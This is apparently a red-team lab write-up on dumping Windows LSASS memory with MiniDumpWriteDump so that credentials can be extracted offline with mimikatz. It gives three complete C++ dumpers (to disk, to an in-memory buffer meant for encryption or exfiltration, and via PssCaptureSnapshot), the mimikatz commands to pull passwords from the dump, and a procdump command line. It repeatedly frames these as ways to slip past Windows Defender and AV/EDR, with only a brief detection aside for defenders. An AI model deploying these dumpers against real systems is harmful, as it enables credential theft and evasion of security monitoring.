


# Dumping LSASS without Mimikatz with MiniDumpWriteDump == Reducing Chances of Getting Flagged

This lab explores multiple ways of how to write a simple `lsass` process dumper using `MiniDumpWriteDump`. Lsass process dumps created with `MiniDumpWriteDump` can be loaded to mimikatz offline, where credential materials could be extracted.

## MiniDumpWriteDump to Disk

It's possible to use `MiniDumpWriteDump` API call to dump lsass.exe process memory.

### Code


```cpp
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {
	DWORD lsassPID = 0;
	HANDLE lsassHandle = NULL; 
	HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
	}
	
	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
	
	if (isDumped) {
		cout << "[+] lsass dumped successfully!" << endl;
	}
	
    return 0;
}
```




Do not forget to add `dbghelp.lib` as a dependency in the Linker &gt; Input settings for your C++ project if the compiler is giving you a hard time:



Or simply include at the top of the source code:  
`#pragma comment (lib, "Dbghelp.lib")`


### Demo

1. Execute CreateMiniDump.exe \(compiled file above\) or compile your own binary
2. Lsass.dmp gets dumped to the working directory
3. Take the lsass.dmp offline to your attacking machine
4. Open mimikatz and load in the dump file 
5. Dump passwords


```csharp
.\createminidump.exe
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```



### Why it's worth it?

See how Windows Defender on Windows 10 is flagging up mimikatz immediately... but allows running CreateMiniDump.exe? Good for us - we get lsass.exe dumped to `lsass.dmp`:


..which then can be read in mimikatz offline:


Of ourse, there is procdump that does the same thing and it does not get flagged by Windows defender, but it is always good to know there are alternatives you could turn to if you need to for whatever reason. 

### Observations

As mentioned earlier, the code above uses a native windows API call `MiniDumpWriteDump` to make a memory dump of a given process. If you are on the blue team and trying to write detections for these activities, you may consider looking for processes loading in `dbghelp.dll` module and calling `MiniDumpWriteDump` function:



## MiniDumpWriteDump to Memory using MiniDump Callbacks

By default, `MiniDumpWriteDump` will dump lsass.exe process memory to disk, however it's possible to use `MINIDUMP_CALLBACK_INFORMATION` callbacks to create a process minidump in memory, where we could encrypt it before dropping to disk or exfiltrate it over the network.

### Code

The below code shows how we can create a minidump for a process and store its buffer in memory, where we can process the buffer as required.

```cpp
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#include <processsnapshot.h>
#pragma comment (lib, "Dbghelp.lib")

using namespace std;

// Buffer for saving the minidump
LPVOID dumpBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 1024 * 1024 * 75);
DWORD bytesRead = 0;

BOOL CALLBACK minidumpCallback(
	__in     PVOID callbackParam,
	__in     const PMINIDUMP_CALLBACK_INPUT callbackInput,
	__inout  PMINIDUMP_CALLBACK_OUTPUT callbackOutput
)
{
	LPVOID destination = 0, source = 0;
	DWORD bufferSize = 0;

	switch (callbackInput->CallbackType)
	{
		case IoStartCallback:
			callbackOutput->Status = S_FALSE;
			break;

		// Gets called for each lsass process memory read operation
		case IoWriteAllCallback:
			callbackOutput->Status = S_OK;
			
			// A chunk of minidump data that's been jus read from lsass. 
			// This is the data that would eventually end up in the .dmp file on the disk, but we now have access to it in memory, so we can do whatever we want with it.
			// We will simply save it to dumpBuffer.
			source = callbackInput->Io.Buffer;
			
			// Calculate location of where we want to store this part of the dump.
			// Destination is start of our dumpBuffer + the offset of the minidump data
			destination = (LPVOID)((DWORD_PTR)dumpBuffer + (DWORD_PTR)callbackInput->Io.Offset);
			
			// Size of the chunk of minidump that's just been read.
			bufferSize = callbackInput->Io.BufferBytes;
			bytesRead += bufferSize;
			
			RtlCopyMemory(destination, source, bufferSize);
			
			printf("[+] Minidump offset: 0x%x; length: 0x%x\n", callbackInput->Io.Offset, bufferSize);
			break;

		case IoFinishCallback:
			callbackOutput->Status = S_OK;
			break;

		default:
			return true;
	}
	return TRUE;
}

int main() {
	DWORD lsassPID = 0;
	DWORD bytesWritten = 0;
	HANDLE lsassHandle = NULL;
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	LPCWSTR processName = L"";
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);

	// Get lsass PID
	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		printf("[+] lsass PID=0x%x\n",lsassPID);
	}

	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
	
	// Set up minidump callback
	MINIDUMP_CALLBACK_INFORMATION callbackInfo;
	ZeroMemory(&callbackInfo, sizeof(MINIDUMP_CALLBACK_INFORMATION));
	callbackInfo.CallbackRoutine = &minidumpCallback;
	callbackInfo.CallbackParam = NULL;

	// Dump lsass
	BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, NULL, MiniDumpWithFullMemory, NULL, NULL, &callbackInfo);

	if (isDumped) 
	{
		// At this point, we have the lsass dump in memory at location dumpBuffer - we can do whatever we want with that buffer, i.e encrypt & exfiltrate
		printf("\n[+] lsass dumped to memory 0x%p\n", dumpBuffer);
		HANDLE outFile = CreateFile(L"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	
		// For testing purposes, let's write lsass dump to disk from our own dumpBuffer and check if mimikatz can work it
		if (WriteFile(outFile, dumpBuffer, bytesRead, &bytesWritten, NULL))
		{
			printf("\n[+] lsass dumped from 0x%p to c:\\temp\\lsass.dmp\n", dumpBuffer, bytesWritten);
		}
	}
	
	return 0;
}
```

Thanks [Niall Newman](https://twitter.com/NiallNSec) for pointing me to [SafetyDump](https://github.com/m0rv4i/SafetyDump/blob/master/SafetyDump/Program.cs) by [@m0rv4i](https://twitter.com/m0rv4i), who implemented `MiniDumpWriteDump` with callbacks in C\#, which I used as a guide for implementing the callback logic.

### Demo

On the left, `0x00000135B8291040` \(`dumpBuffer`\) gets populated with minidump data after the `MiniDumpWriteDump` API is called.

On the right, we're executing the same code and it says that the minidump was written to our buffer at `0x000001AEA0BC4040`. For testing purposes, bytes from the same buffer `0x000001AEA0BC4040` were also written to `c:\temp\lsass.dmp` using `WriteFile`, so that we could load the lsass dump to mimikatz \(bottom right\) and ensure it's not corrupted and credentials can be retrieved:



If you ever try using `MiniDumpWriteDump` to dump process memory to memory using named pipes, you will notice that the minidump file "kind of" gets created, but mimikatz is not able to read it. That's because the minidump file buffer is actually read/written non-sequentially \(you can see this from the screenshot in the top right corner - note the differing offsets of the write operations of the minidump data\), so when you are reading the minidump data using named pipes, you simply are writting the data in incorrect order, which effectively produces a corrupted minidump file.


### Other Ways

Below are links to a couple of other cool solutions to the same problem.

Implementing a custom `MiniDumpWriteDump` based on the `MiniDumpWriteDump` of ReactOS:



Hooking `dbgcore.dll!Win32FileOutputProvider::WriteAll` to intercept the minidump data before it's written to disk:



## PssCaptureSnapshot

`PssCaptureSnapshot` is another Windows API that lets us dump LSASS using `MiniDumpWriteDump` that may help us sneak past some AVs/EDRs for now.


The benefit of using `PssCaptureSnapshot` is that when `MiniDumpWriteDump` is called from your malware, it will not be reading lsass process memory directly and instead will do so from the process's snapshot.


Below is the modified dumper code that uses the `PssCaptureSnapshot` to obtain a snapshot of the LSASS process. The handle that is returned by the `PssCaptureSnapshot` is then used in the `MiniDumpWriteDump` call instead of the LSASS process handle. This is done via the minidump callback:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
#include <processsnapshot.h>
#pragma comment (lib, "Dbghelp.lib")

using namespace std;

BOOL CALLBACK MyMiniDumpWriteDumpCallback(
	__in     PVOID CallbackParam,
	__in     const PMINIDUMP_CALLBACK_INPUT CallbackInput,
	__inout  PMINIDUMP_CALLBACK_OUTPUT CallbackOutput
)
{
	switch (CallbackInput->CallbackType)
	{
	case 16: // IsProcessSnapshotCallback
		CallbackOutput->Status = S_FALSE;
		break;
	}
	return TRUE;
}

int main() {
	DWORD lsassPID = 0;
	HANDLE lsassHandle = NULL;
	HANDLE outFile = CreateFile(L"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	LPCWSTR processName = L"";

	if (Process32First(snapshot, &processEntry)) {
		while (_wcsicmp(processName, L"lsass.exe") != 0) {
			Process32Next(snapshot, &processEntry);
			processName = processEntry.szExeFile;
			lsassPID = processEntry.th32ProcessID;
		}
		wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
	}

	lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);

	HANDLE snapshotHandle = NULL;
	DWORD flags = (DWORD)PSS_CAPTURE_VA_CLONE | PSS_CAPTURE_HANDLES | PSS_CAPTURE_HANDLE_NAME_INFORMATION | PSS_CAPTURE_HANDLE_BASIC_INFORMATION | PSS_CAPTURE_HANDLE_TYPE_SPECIFIC_INFORMATION | PSS_CAPTURE_HANDLE_TRACE | PSS_CAPTURE_THREADS | PSS_CAPTURE_THREAD_CONTEXT | PSS_CAPTURE_THREAD_CONTEXT_EXTENDED | PSS_CREATE_BREAKAWAY | PSS_CREATE_BREAKAWAY_OPTIONAL | PSS_CREATE_USE_VM_ALLOCATIONS | PSS_CREATE_RELEASE_SECTION;
	MINIDUMP_CALLBACK_INFORMATION CallbackInfo;
	ZeroMemory(&CallbackInfo, sizeof(MINIDUMP_CALLBACK_INFORMATION));
	CallbackInfo.CallbackRoutine = &MyMiniDumpWriteDumpCallback;
	CallbackInfo.CallbackParam = NULL;

	PssCaptureSnapshot(lsassHandle, (PSS_CAPTURE_FLAGS)flags, CONTEXT_ALL, (HPSS*)&snapshotHandle);

	BOOL isDumped = MiniDumpWriteDump(snapshotHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, &CallbackInfo);

	if (isDumped) {
		cout << "[+] lsass dumped successfully!" << endl;
	}

	PssFreeSnapshot(GetCurrentProcess(), (HPSS)snapshotHandle);
	return 0;
}
```



Note that this is the way `procdump.exe` works when `-r` flag is specified: 


To confirm, if we execute procdump like so:

```text
procdump -accepteula -r -ma lsass.exe lsass.dmp
```

...and inspect the APIs that are being called under the hood, we will see that `procdump` is indeed dynamically resolving the `PssCaptureSnapshot` address inside the `kernel32.dll`:


## References











